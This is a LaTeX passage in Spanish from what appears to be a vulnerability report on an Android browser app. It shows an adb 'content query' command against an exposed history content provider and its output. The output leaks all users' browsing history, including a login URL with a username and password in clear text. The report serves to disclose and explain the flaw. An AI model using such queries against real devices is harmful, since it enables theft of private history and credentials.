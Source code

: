\documentclass[11pt, a4paper, twoside]{article}
\begin{document}
\vspace{-30pt}
\subsubsection{Prueba de Concepto}
A continuación se muestra un query al content provider \textbf{history\_provider}, realizado con el comando \texttt{content} del shell de Android. Antes de ello, se navegó a través de algunas páginas con usuarios distintos, Google y Facebook con el primer usuario, y Taringa con el segundo usuario.

\begin{verbatim}
$ adb shell content query --uri "content://ar.sadosky.browser.history_provider/history"
Row: 0 url_visited=about:blank
Row: 1 url_visited=http://www.google.com.ar/
Row: 2 url_visited=http://www.google.com.ar/intl/es-419/policies/privacy/?fg=1
Row: 3 url_visited=https://facebook.com/
Row: 4 url_visited=https://www.facebook.com/?_rdr
Row: 5 url_visited=https://m.facebook.com/?_rdr&refsrc=https%3A%2F%2Fwww.facebook.com%2F
Row: 6 url_visited=https://mail.google.com/mail/
Row: 7 url_visited=https://accounts.google.com/ServiceLogin?service=mail&passive=true
&continue=https://mail.google.com/mail/?ui%3Dmobile%26zyp%3Dl&scc=1&ltmpl=ecobx
&nui=5&btmpl=mobile&emr=1
Row: 8 url_visited=http://www.taringa.net/
Row: 9 url_visited=http://m.taringa.net/
Row: 10 url_visited=http://www.taringa.net/login.html?user=taringuero&pass=1234
Row: 11 url_visited=http://m.taringa.net/posts/hazlo-tu-mismo/18505791/
Te-enseno-a-hacer-una-mochila-3.html
\end{verbatim}

Como se puede apreciar, por las razones expuestas anteriormente, todo el historial de los usuarios puede ser obtenido muy fácilmente. No sólo es posible ver eso, sino también que el historial de todos los usuarios de la aplicación se encuentra guardado sin distinción del usuario que lo produjo, por lo que todos los usuarios comparten el mismo historial.

El hecho de que el historial sea accesible por cualquier aplicación, representa no solo una brecha a la privacidad del usuario, sino que también existe el peligro de robo de sesiones/credenciales de los sitios en que navega el usuario, suponiendo que alguno de estos datos sean enviados a través de peticiones GET\footnote{Lo cual en sí ya representa una vulnerabilidad}. Se realizó un login al sitio de taringa, a modo de ejemplo, el cual quedó registrado en la línea \textbf{\color{blue}Row: 10 url\_visited=http://www.taringa.net/login.html?user={\color{red}taringuero}\&pass={\color{red}1234}}, de la cual es posible extraer el usuario ``taringuero'' y la contraseña ``1234''.
\end{document}
